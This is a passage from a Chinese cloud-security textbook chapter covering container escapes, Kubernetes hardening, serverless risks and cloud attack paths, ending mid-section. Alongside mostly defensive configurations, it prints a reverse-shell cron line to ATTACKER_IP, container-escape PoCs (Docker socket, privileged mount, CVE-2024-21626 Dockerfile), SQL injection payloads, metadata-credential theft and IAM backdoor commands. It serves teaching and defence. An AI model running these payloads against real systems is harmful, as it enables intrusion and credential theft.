








# 第12章 云计算基础 - 深度拓展

> 本章在前六节的基础上进行纵深拓展：从云原生架构的攻防细节、到多云/混合云安全治理、再到实战中的渗透测试方法论，帮助读者建立完整的云安全知识体系。

## 一、云原生架构安全深度剖析

### 1.1 容器安全：从隔离机制到逃逸攻防

容器并非轻量级虚拟机——它共享宿主机内核，隔离性远弱于虚拟机。理解这一本质差异是容器安全的起点。

#### 1.1.1 容器隔离的三层机制

Linux 容器的隔离依赖三个核心机制，每一层都有独立的攻击面：

| 隔离层 | 机制 | 作用 | 攻击面 |
|--------|------|------|--------|
| **进程隔离** | Linux Namespaces | 隔离 PID、网络、挂载点、UTS、IPC、用户、cgroup | 命名空间逃逸、UID 映射绕过 |
| **资源限制** | Cgroups | 限制 CPU、内存、磁盘 I/O、网络带宽 | 资源耗尽攻击（DoS） |
| **权限控制** | Seccomp + AppArmor/SELinux + Capabilities | 限制系统调用和文件访问 | Seccomp 配置不当、Capabilities 过度授予 |

**关键认知：** 容器的 PID Namespace 隔离了进程视图，但容器内的 root（UID 0）默认映射到宿主机的 root。这意味着一旦容器逃逸，攻击者就拥有宿主机的完整 root 权限。

#### 1.1.2 容器逃逸攻击路径详解

容器逃逸是云安全中最危险的攻击类型之一。以下是已知的主要逃逸路径：

**路径一：内核漏洞利用**

容器共享宿主机内核，内核漏洞直接影响所有容器：

```text
# 典型 CVE 案例
CVE-2022-0185  - Heap overflow in legacy_parse_param, 影响 Linux 5.1+
CVE-2022-0492  - cgroup v1 release_agent 提权, 影响几乎所有使用 cgroup v1 的系统
CVE-2022-0847  - Dirty Pipe, 影响 Linux 5.8 - 5.16.11
CVE-2022-2588  - route4 模块 UAF, 影响内核 < 5.19
```

**路径二：容器运行时漏洞**

```text
CVE-2019-5736  - runc 容器逃逸（通过覆盖宿主机 runc 二进制）
CVE-2020-15257 - containerd API 暴露导致容器逃逸
CVE-2021-30465 - runc 符号链接挂载漏洞
```

CVE-2019-5736 的攻击原理：攻击者在容器内替换 `/proc/self/exe` 指向的 runc 二进制文件，当宿主机执行 `docker exec` 进入容器时，会执行被篡改的恶意 runc，从而在宿主机上获得任意代码执行权限。

**路径三：特权容器与危险配置**

```bash
# 以下 docker run 参数均可能导致逃逸
docker run --privileged                          # 获得全部 capabilities
docker run --cap-add=SYS_ADMIN                   # 挂载文件系统的能力
docker run --security-opt apparmor=unconfined    # 禁用 AppArmor
docker run -v /:/hostfs                          # 挂载宿主机根文件系统
docker run --pid=host                            # 共享宿主机 PID namespace
docker run --net=host                            # 共享宿主机网络 namespace
```

特权容器几乎等同于宿主机上的 root 进程，攻击者可以直接挂载宿主机磁盘实现逃逸：

```bash
# 特权容器内逃逸 PoC
mkdir /tmp/host
mount /dev/sda1 /tmp/host
chroot /tmp/host
# 此时已获得宿主机完整文件系统访问
echo "* * * * * root bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" >> /tmp/host/etc/crontab
```

**路径四：挂载卷逃逸**

Docker Socket 挂载是最常见的误配置之一：

```bash
# 危险：将 Docker Socket 挂载到容器内
docker run -v /var/run/docker.sock:/var/run/docker.sock alpine

# 攻击者可以在容器内控制 Docker daemon
# 创建新的特权容器，挂载宿主机根目录
docker -H unix:///var/run/docker.sock run -it -v /:/host alpine chroot /host
```

**路径五：runc/CVE-2024-21626（Leaky Vessels）**

2024 年初披露的 Leaky Vessels 漏洞族影响几乎所有主流容器运行时。CVE-2024-21626 利用 `WORKDIR` 指令中的文件描述符泄漏，攻击者可以通过构造恶意 Dockerfile，在构建或运行阶段逃逸：

```dockerfile
# 恶意 Dockerfile PoC（CVE-2024-21626）
FROM python:3.9-slim
WORKDIR /proc/self/fd/8/../../..
# 此时容器可以看到宿主机的文件系统
CMD ["cat", "/etc/shadow"]
```

#### 1.1.3 容器安全防御体系

**（1）镜像安全扫描**

在 CI/CD 管道中集成镜像扫描，拦截已知漏洞：

```bash
# Trivy：扫描镜像漏洞
trivy image --severity HIGH,CRITICAL nginx:latest

# Grype：另一个优秀的扫描器
grype nginx:latest --fail-on high

# 扫描 Dockerfile 本身的安全问题
hadolint Dockerfile
```

**（2）镜像签名与验证**

使用 Cosign 对镜像签名，防止供应链攻击：

```bash
# 生成密钥对
cosign generate-key-pair

# 签名镜像
cosign sign --key cosign.key registry.example.com/myapp:v1.0

# 验证签名
cosign verify --key cosign.pub registry.example.com/myapp:v1.0

# 在 Kubernetes 中强制验证签名（使用 Kyverno）
# policy.yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signature
spec:
  validationFailureAction: enforce
  rules:
  - name: verify-cosign-signature
    match:
      resources:
        kinds: ["Pod"]
    verifyImages:
    - imageReferences: ["registry.example.com/*"]
      attestors:
      - entries:
        - keys:
            publicKeys: |-
              -----BEGIN PUBLIC KEY-----
              ...
              -----END PUBLIC KEY-----
```

**（3）运行时安全监控**

Falco 是 CNCF 毕业项目，通过监控系统调用检测容器内异常行为：

```yaml
# falco_rules.yaml - 自定义检测规则
- rule: 容器内启动反向 Shell
  desc: 检测容器内出现的反向 Shell 行为
  condition: >
    spawned_process and container and
    (proc.name in (bash, sh, dash, zsh)) and
    (fd.type = ipv4 or fd.type = ipv6) and
    (fd.name contains ":4444" or fd.name contains ":1234")
  output: >
    容器内反向 Shell 检测
    (user=%user.name container=%container.name command=%proc.cmdline connection=%fd.name)
  priority: CRITICAL

- rule: 容器内读取敏感文件
  desc: 检测容器访问 /etc/shadow 等敏感文件
  condition: >
    open_read and container and
    (fd.name in (/etc/shadow, /etc/passwd, /etc/kubernetes, /var/run/secrets))
  output: >
    容器读取敏感文件 (user=%user.name file=%fd.name container=%container.name)
  priority: WARNING
```

**（4）Pod 安全标准（Pod Security Standards）**

Kubernetes 1.25+ 弃用了 PodSecurityPolicy，转而使用基于准入控制器的 Pod Security Standards：

```yaml
# 强制 Restricted 级别（最严格）
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

Restricted 级别要求：容器必须以非 root 用户运行、禁止特权模式、禁止 hostPID/hostNetwork/hostIPC、必须设置 seccomp profile、必须 drop 所有 capabilities 只保留 NET_BIND_SERVICE。

```yaml
# 满足 Restricted 级别的 Pod 配置示例
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 65534
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: myapp:v1.0
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]
        add: ["NET_BIND_SERVICE"]
    resources:
      limits:
        cpu: "500m"
        memory: "256Mi"
```

### 1.2 Kubernetes 安全架构全解

#### 1.2.1 控制平面安全加固

Kubernetes 控制平面是整个集群的大脑，一旦被攻破，攻击者可以控制所有工作负载。

**API Server 加固：**

```yaml
# kube-apiserver 安全相关启动参数
--authorization-mode=Node,RBAC              # 启用 RBAC 授权
--enable-admission-plugins=NodeRestriction,PodSecurity,ServiceAccount
--audit-log-path=/var/log/kubernetes/audit.log
--audit-log-maxage=30
--audit-log-maxbackup=10
--audit-log-maxsize=100
--encryption-provider-config=/etc/kubernetes/encryption-config.yaml
--tls-min-version=VersionTLS12
--tls-cipher-suites=TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
--request-timeout=300s
--service-account-lookup=true
```

**etcd 加密配置：**

```yaml
# /etc/kubernetes/encryption-config.yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  - configmaps
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: <base64-encoded-32-byte-key>
  - identity: {}  # 回退到明文（用于读取旧数据）
```

**审计策略：**

```yaml
# /etc/kubernetes/audit-policy.yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
# 记录所有对 secrets 的读写
- level: RequestResponse
  resources:
  - group: ""
    resources: ["secrets"]
# 记录所有认证失败
- level: Metadata
  stages:
  - ResponseComplete
  omitStages:
  - RequestReceived
# 忽略只读的健康检查
- level: None
  users: ["system:kube-proxy"]
  verbs: ["watch"]
  resources:
  - group: ""
    resources: ["endpoints", "services", "services/status"]
# 其他所有请求记录元数据
- level: Metadata
  omitStages:
  - RequestReceived
```

#### 1.2.2 RBAC 安全审计

RBAC 配置不当是 Kubernetes 中最常见的安全问题之一。以下是常见危险模式：

```bash
# 检查集群中所有 cluster-admin 绑定
kubectl get clusterrolebindings -o json | jq '.items[] |
  select(.roleRef.name == "cluster-admin") |
  {name: .metadata.name, subjects: .subjects}'

# 检查是否有 ServiceAccount 被绑定了过宽的权限
kubectl get clusterrolebindings,rolebindings --all-namespaces -o json | jq '.items[] |
  select(.subjects[]?.kind == "ServiceAccount") |
  {binding: .metadata.name, namespace: .metadata.namespace,
   role: .roleRef.name, subjects: .subjects}'

# 使用 rbac-lookup 工具查询权限
rbac-lookup --kind serviceaccount --output wide

# 使用 kubectl-who-can 检查谁可以执行某个操作
kubectl who-can delete pods --namespace production
```

**最小权限 RBAC 模板：**

```yaml
# 为应用创建最小权限的 ServiceAccount
apiVersion: v1
kind: ServiceAccount
metadata:
  name: app-sa
  namespace: production
automountServiceAccountToken: false  # 不自动挂载 token
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-reader
  namespace: production
rules:
- apiGroups: [""]
  resources: ["configmaps"]
  resourceNames: ["app-config"]  # 只能访问特定的 configmap
  verbs: ["get", "list", "watch"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: app-reader-binding
  namespace: production
subjects:
- kind: ServiceAccount
  name: app-sa
  namespace: production
roleRef:
  kind: Role
  name: app-reader
  apiGroup: rbac.authorization.k8s.io
```

#### 1.2.3 网络策略与服务网格

**默认拒绝所有流量（Zero Trust Networking）：**

```yaml
# 拒绝 production 命名空间的所有入站流量
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-ingress
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
---
# 只允许前端访问后端的 8080 端口
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-frontend-to-backend
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: backend
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          app: frontend
    ports:
    - protocol: TCP
      port: 8080
```

**Istio 服务网格 mTLS 强制：**

```yaml
# 强制整个命名空间使用 STRICT mTLS
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: default
  namespace: production
spec:
  mtls:
    mode: STRICT
---
# 授权策略：只允许 frontend 服务访问 backend
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: backend-policy
  namespace: production
spec:
  selector:
    matchLabels:
      app: backend
  action: ALLOW
  rules:
  - from:
    - source:
        principals: ["cluster.local/ns/production/sa/frontend"]
    to:
    - operation:
        methods: ["GET", "POST"]
        paths: ["/api/*"]
```

### 1.3 Serverless 安全深度分析

#### 1.3.1 无服务器攻击面全景

Serverless 架构将攻击面从传统的服务器转移到了函数、事件源和权限配置上：



#### 1.3.2 Serverless 攻击实战

**事件注入攻击示例：**

攻击者通过 API Gateway 向 Lambda 函数注入恶意输入：

```python
# 原始 Lambda 函数（存在 SQL 注入漏洞）
import json
import sqlite3

def lambda_handler(event, context):
    user_id = event['queryStringParameters']['user_id']
    # 危险：直接拼接用户输入
    query = f"SELECT * FROM users WHERE id = '{user_id}'"

    conn = sqlite3.connect('/tmp/users.db')
    cursor = conn.cursor()
    cursor.execute(query)  # SQL 注入
    results = cursor.fetchall()
    return {'statusCode': 200, 'body': json.dumps(results)}

# 攻击请求
# GET /users?user_id=' UNION SELECT sql FROM sqlite_master--
# GET /users?user_id=' OR 1=1--
```

**环境变量泄露：**

```python
# 不安全的函数 - 将环境变量泄露到日志
def lambda_handler(event, context):
    # 危险：调试代码残留
    print(f"DEBUG: Environment = {os.environ}")
    # 环境变量通常包含数据库密码、API Key 等敏感信息
    # CloudWatch Logs 会记录这些输出
```

**临时文件残留：**

```python
# 无服务器函数的 /tmp 目录在冷启动间可能保留
import os

def lambda_handler(event, context):
    # 写入临时文件
    with open('/tmp/sensitive_data.json', 'w') as f:
        json.dump({'password': 'secret123'}, f)

    # 如果函数实例被复用（热启动），下一个请求可能读到这个文件
    # 其他函数调用或同一函数的不同请求可能看到残留数据
```

#### 1.3.3 Serverless 安全防御清单

| 防御维度 | 具体措施 | 实施优先级 |
|----------|----------|-----------|
| **函数权限** | 每个函数独立 IAM 角色，遵循最小权限 | P0 |
| **输入验证** | API Gateway 请求验证 + 函数内二次校验 | P0 |
| **依赖安全** | 使用 Lambda Layers 统一管理依赖，定期扫描 | P0 |
| **密钥管理** | 使用 AWS Secrets Manager / Azure Key Vault，禁止硬编码 | P0 |
| **日志脱敏** | 在日志输出前过滤敏感字段 | P1 |
| **临时存储** | 每次调用清理 /tmp，不依赖临时存储持久化 | P1 |
| **并发限制** | 设置函数并发上限，防止资源耗尽和账单爆炸 | P1 |
| **VPC 隔离** | 函数运行在 VPC 内访问私有资源 | P2 |

### 1.4 多云与混合云安全架构

#### 1.4.1 多云安全架构模式



#### 1.4.2 统一身份管理实践

跨云身份联邦的核心是将身份源统一，各云平台作为服务提供方：

```yaml
# AWS IAM Identity Center (SSO) 配置 OIDC 联邦
# Terraform 示例
resource "aws_iam_ssoadmin_instance" "main" {
  instance_arn = tolist(data.aws_ssoadmin_instances.main.arns)[0]
}

# Azure AD 作为身份源，AWS 作为依赖方
# 在 Azure AD 中注册 AWS SSO 应用
# 在 AWS 中配置 SAML 联邦

# GCP Workload Identity Federation（无需服务账号密钥）
resource "google_iam_workload_identity_pool" "aws_pool" {
  workload_identity_pool_id = "aws-pool"
  display_name              = "AWS Identity Pool"
}

resource "google_iam_workload_identity_pool_provider" "aws_provider" {
  workload_identity_pool_id          = google_iam_workload_identity_pool.aws_pool.workload_identity_pool_id
  workload_identity_pool_provider_id = "aws-provider"
  display_name                       = "AWS Provider"
  aws {
    account_id = "123456789012"
  }
  attribute_mapping = {
    "google.subject"        = "assertion.arn"
    "attribute.aws_account" = "assertion.account"
  }
}
```

#### 1.4.3 跨云合规管理

各云平台的安全配置基准对比如下：

| 安全控制 | AWS | Azure | GCP |
|---------|-----|-------|-----|
| **身份联邦** | IAM Identity Center | Entra ID | Workload Identity Federation |
| **密钥管理** | KMS + CloudHSM | Key Vault | Cloud KMS + Cloud HSM |
| **网络隔离** | VPC + Security Groups | VNet + NSGs | VPC + Firewall Rules |
| **日志审计** | CloudTrail + Config | Activity Log + Monitor | Cloud Audit Logs |
| **安全态势** | Security Hub | Defender for Cloud | Security Command Center |
| **容器安全** | ECR + GuardDuty | ACR + Defender | ARS + Binary Authorization |
| **配置基准** | CIS Benchmark | CIS Benchmark | CIS Benchmark |
| **数据加密** | 默认 SSE-S3/SSE-KMS | 默认 256-bit AES | 默认 Google-managed key |

---

## 二、云安全攻防实战

### 2.1 元数据服务攻击（SSRF → 凭证窃取）

云实例的元数据服务是云安全中最经典的攻击面之一。以 AWS 为例：

```bash
# IMDSv1（无认证，存在 SSRF 风险）
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME

# 返回的临时凭证包含：
# {
#   "AccessKeyId": "ASIA...",
#   "SecretAccessKey": "...",
#   "Token": "...",
#   "Expiration": "2026-06-25T12:00:00Z"
# }

# IMDSv2（需要 Token 认证，防御 SSRF）
# 第一步：获取 Token（需要 PUT 请求，SSRF 通常无法发起）
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
# 第二步：使用 Token 查询元数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/
```

**各云平台元数据服务对比：**

| 云平台 | 元数据地址 | 默认版本 | 版本强制 |
|--------|-----------|---------|---------|
| AWS | 169.254.169.254 | IMDSv1 (可选v2) | 可配置强制 IMDSv2 |
| Azure | 169.254.169.254 | IMDS (需 Metadata:true 头) | 默认安全 |
| GCP | metadata.google.internal | 需 Metadata-Flavor:Google 头 | 默认安全（需要特定头） |

**IMDSv2 绕过方法（2024 年研究）：**

即使启用了 IMDSv2，以下场景仍可能被绕过：

```bash
# 方法一：利用重定向（部分场景）
# 如果应用存在 SSRF 且支持 HTTP 重定向跟随
# 攻击者可以构造 302 重定向链到元数据服务

# 方法二：利用容器网络配置错误
# 如果容器使用 hostNetwork，可以直接访问元数据服务
# 即使启用了 IMDSv2，因为是在同一网络命名空间

# 方法三：利用 hop limit
# 如果 IMDSv2 的 HttpPutResponseHopLimit 设置为 2+
# 容器内的请求可能到达元数据服务（默认 hop limit=1 只允许直接连接）
```

**防御策略：**

```bash
# 强制 IMDSv2（AWS）
aws ec2 modify-instance-metadata-options \
  --instance-id i-1234567890abcdef0 \
  --http-tokens required \
  --http-put-response-hop-limit 1 \
  --http-endpoint enabled

# 使用 SCP 阻止禁用 IMDSv2
{
  "Version": "2012-10-17",
  "Statement": [{
    "Sid": "RequireIMDSv2",
    "Effect": "Deny",
    "Action": "ec2:ModifyInstanceMetadataOptions",
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "ec2:HttpTokens": "required"
      }
    }
  }]
}
```

### 2.2 IAM 权限提升攻击路径

#### 2.2.1 AWS IAM 攻击链

```text
初始访问（低权限角色）
  ↓
枚举权限（iam:GetUser, iam:ListAttachedUserPolicies, sts:GetCallerIdentity）
  ↓
发现角色信任策略漏洞
  ↓
通过 AssumeRole 获取高权限角色
  ↓
创建后门（AccessKey、IAM User）
  ↓
持久化访问
```

**常见权限提升路径：**

```bash
# 路径一：iam:PassRole + 其他服务创建权限
# 如果用户有 iam:PassRole + lambda:CreateFunction
# 可以创建 Lambda 函数并传入高权限角色
aws lambda create-function \
  --function-name backdoor \
  --role arn:aws:iam::ACCOUNT:role/admin-role \
  --code S3Bucket=exploit,S3Key=lambda.zip \
  --runtime python3.9 \
  --handler index.handler

# 路径二：sts:AssumeRole 信任策略过于宽松
# 检查哪些角色信任外部账户
aws iam list-roles | jq '.Roles[] |
  select(.AssumeRolePolicyDocument.Statement[].Principal.AWS != null) |
  {RoleName: .RoleName, TrustedEntities: .AssumeRolePolicyDocument.Statement[].Principal}'

# 路径三：利用 PassRole 到 Glue/EC2/SageMaker 等服务
# 这些服务允许你附加一个角色，如果角色信任该服务，就可以代入
```

**自动化权限枚举工具：**

```bash
# enumerate-iam：暴力枚举当前凭证的权限
python3 enumerate-iam.py --access-key ASIA... --secret-key ... --session-token ...

# Pacu：AWS 渗透测试框架
pacu> run iam__enum_permissions
pacu> run iam__privesc_scan

# cloudmapper：可视化 AWS 环境
cloudmapper collect --account prod
cloudmapper webserver  # 启动可视化界面
```

#### 2.2.2 Azure 权限提升

```bash
# Azure AD 常见攻击路径
# 1. 应用注册权限过大 → 可以修改服务主体凭据
az ad app credential reset --id APP_ID --append

# 2. Managed Identity 泄露 → VM 上的应用可以获取 Token
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# 3. Contributor + User Access Administrator 组合
# Contributor 可以创建资源，User Access Administrator 可以分配角色
# 创建一个 VM 并分配 Owner 角色给自己

# 工具：ROADtools
roadrecon gather --auth  # 收集 Azure AD 信息
roadrecon gui             # 可视化分析
```

### 2.3 存储服务攻击与防御

#### 2.3.1 S3/Azure Blob/GCS 常见安全问题

```bash
# AWS S3 公开桶枚举
# 检查桶是否公开访问
aws s3api get-bucket-acl --bucket TARGET_BUCKET
aws s3api get-bucket-policy --bucket TARGET_BUCKET

# 使用公开工具扫描
# cloud_enum：跨云存储桶枚举
python3 cloud_enum.py -k TARGET_COMPANY

# Azure Blob 存储枚举
# Azure Blob 容器可以设置为匿名读取
# 枚举容器名
python3 blobhunter.py -f subdomains.txt

# GCP Storage 枚举
# 检查 allUsers 和 allAuthenticatedUsers 权限
gsutil iam get gs://TARGET_BUCKET
```

**真实世界案例：**

```text
2019年 Capital One 数据泄露
- 起因：AWS WAF 配置错误 + SSRF 漏洞
- 攻击者通过 SSRF 获取了 EC2 的 IAM 角色凭证
- 该角色拥有过度的 S3 权限
- 泄露了 1.06 亿用户的数据
- 损失超过 1.5 亿美元

关键教训：
